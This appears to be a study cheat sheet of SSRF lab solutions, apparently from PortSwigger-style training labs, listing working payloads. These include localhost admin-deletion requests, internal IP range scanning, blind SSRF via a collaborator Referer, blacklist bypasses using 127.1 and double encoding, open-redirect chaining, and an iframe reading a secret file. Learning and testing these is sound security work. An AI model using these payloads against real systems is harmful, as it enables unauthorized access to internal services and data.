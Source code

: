 - Direct SSRF:
```
stockApi=http://localhost/admin/delete?username=carlos
```
- Find Endpoint in Intruder:
```html
stockApi=http://192.168.0.§1§:6566/admin
```
- Blind with referer:
```
Referer: http://2oru8j9vlpwhqk01e8156j8a81es2kq9.oastify.com
```
- Simple Bypasses:
```
- Change the URL in the `stockApi` parameter to `http://127.0.0.1/` and observe that the request is blocked.
- Bypass the block by changing the URL to: `http://127.1/`
- Change the URL to `http://127.1/admin` and observe that the URL is blocked again.
- Obfuscate the "a" by double-URL encoding it to %2561 to access the admin interface and delete the target user.
```
- Via Open Redirection:
```
Redirection in:
/product/nextproduct?path=http://192.168.0.12:6566/admin

stockApi=/product/nextProduct?currentProductId=4%26path=http://192.168.0.12:8080/admin/delete?username=carlos
```

You can change the URL of stockApi to make another api action, such as delete a user 
```html
stockApi=http://localhost/admin/delete?username=carlos
```

##### Basic SSRF against another back-end system
To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`.
Send to Intruder:
```html
stockApi=http://192.168.0.§1§:8080/admin
```
We find out that .31 has different lenght and we can delete carlos
```html
stockApi=http://192.168.0.31:8080/admin/delete?username=carlos
```

Exam SSRF
```
{"table-html":"<div><p>Report Heading</p><iframe src='http://localhost:6566/home/carlos/secret'"}
```
##### Blind SSRF with out-of-band detection
Change referer header to your collaborator
```
...
Sec-Fetch-Dest: document
Referer: http://2oru8j9vlpwhqk01e8156j8a81es2kq9.oastify.com
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

```


##### SSRF with blacklist-based input filter
```
- Change the URL in the `stockApi` parameter to `http://127.0.0.1/` and observe that the request is blocked.
- Bypass the block by changing the URL to: `http://127.1/`
- Change the URL to `http://127.1/admin` and observe that the URL is blocked again.
- Obfuscate the "a" by double-URL encoding it to %2561 to access the admin interface and delete the target user.
```


##### SSRF with filter bypass via open redirection vulnerability
To solve the lab, change the stock check URL to access the admin interface at `http://192.168.0.12:8080/admin` and delete the user `carlos`.
```
Changing directly is blocked, but we can abuse an open redirection vuln in /product/nextproduct?path=http://192.168.0.12:8080/admin

Observe that the stock checker follows the redirection and shows you the admin page.

Change stockApi from before to: /product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos

```